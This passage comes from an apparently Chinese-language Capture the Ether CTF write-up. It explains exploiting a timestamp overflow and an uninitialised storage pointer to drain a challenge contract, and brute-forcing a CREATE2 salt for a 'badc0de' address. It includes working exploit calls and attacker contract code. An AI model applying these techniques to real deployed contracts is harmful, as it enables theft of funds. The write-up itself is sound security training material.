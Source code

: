 他有一个很明显的可以利用的上溢点：

```solidity
require(timestamp >= queue[queue.length - 1].unlockTimestamp + 1 days);
```

我们可以先插入一个`timestamp = type(uint256).max - 1 days + 1`的项，之后就可以插入一个`timestamp = 0 `的项了。

然而这里不仅有上溢问题，还有一个[Donation](https://capturetheether.com/challenges/math/donation/)提及的存储上的问题：

```solidity
            contribution.amount = msg.value;
            contribution.unlockTimestamp = timestamp;
            queue.push(contribution);
```

他又对一个`undefined`的指针进行操作了，这将导致每次插入contribution的队列长度被修改为msg.value，队头值head被修改为timestamp。因此我们需要确保最后一次插入的msg.value为最终队列长度 - 1（2），timestamp覆盖到队头0，这样才能提出所有代币。因此我执行了两次如下的插入：

```solidity
    const ONE_DAY = 24 * 60 * 60;
    const DATE_OVERFLOW = BigNumber.from(`2`).pow(`256`).sub(ONE_DAY);
    await contract.upsert(1,DATE_OVERFLOW,{value:1,gasLimit:1e5});
    await contract.upsert(2,0,{value:2,gasLimit:1e5});
```

那这样就可以将所有代币提取出来了吗？并不行。注意到`queue.push(contribution)`,他会将队列长度+1，再插入。因此实际存储的`contribution.amount`为`msg.value + 1`，由于我们做了两次操作，他记录的eth值会比实际存储的值多出两wei。因此我们需要用到[Retirement fund](https://capturetheether.com/challenges/math/retirement-fund/)的自毁函数，强制发2wei给合约，才能把所有eth提出来。

```typescript
    const ONE_DAY = 24 * 60 * 60;
    const DATE_OVERFLOW = BigNumber.from(`2`).pow(`256`).sub(ONE_DAY);
    await contract.upsert(1,DATE_OVERFLOW,{value:1,gasLimit:1e5});
    await contract.upsert(2,0,{value:2,gasLimit:1e5});
    const factory = await ethers.getContractFactory("RetirementFundAttacker", attacker);
    let attackerContract = await factory.deploy(contract.address,{value:2,gasLimit:1e5});
    await contract.withdraw(2,{gasLimit:1e5});
```

##### [Accounts](https://capturetheether.com/challenges/accounts/)

###### [Fuzzy identity](https://capturetheether.com/challenges/accounts/fuzzy-identity/)

这个挑战要求一个能返回`name() == bytes32("smarx")` 并且address包含`badc0de`串的合约跟他进行交互，才可以完成挑战。

地址总共有$2^{160}$种可能，在串中任意出现`badc0de`,考虑容斥原理的计算,至少有$C_{34}^{1}* 2^{132} - (C_{34}^2 - (2 * \sum_6^{11} + 22 * 12)) * 2^{104} = 34 * 2^{132} - 195 * 2^{104} \ge 32 * 2^{132}$种可能,因此碰撞出对应hash的概率至少为$\frac{2^5}2^{28}=\frac{1}{2^{23}} = \frac{1}{8388608}$,平均八百多万分之一的概率能碰到，幸好我脸并不是很黑，跑了9445858个salt就碰上正确的合约地址了。

我利用create2加入salt值来计算新合约的地址。首先我在测试网上部署了一个合约，fork部署后的块，在本机上调用合约`find（）`，不断增加salt去计算地址是否符合要求。当计算出符合要求的地址后，我就在测试网上调用`attack()`，输入该salt值产生符合要求的合约去和challenge交互，完成了该挑战。

```solidity
 contract FuzzyIdentityAttacker {
    address public challenge;
    bytes32 public initHash;
    uint256 public saltNumber;
    bytes20 constant id = hex"000000000000000000000000000000000badc0de";
    bytes20 constant mask = hex"000000000000000000000000000000000fffffff";
    uint256 public successNumber;
 constructor (address challengeAddress) {
        challenge = challengeAddress;
        initHash = keccak256(type(FuzzContract).creationCode);
        saltNumber = 0;
        successNumber = 0;
    }
    function find(uint256 number) external {
        uint256 i = saltNumber;
```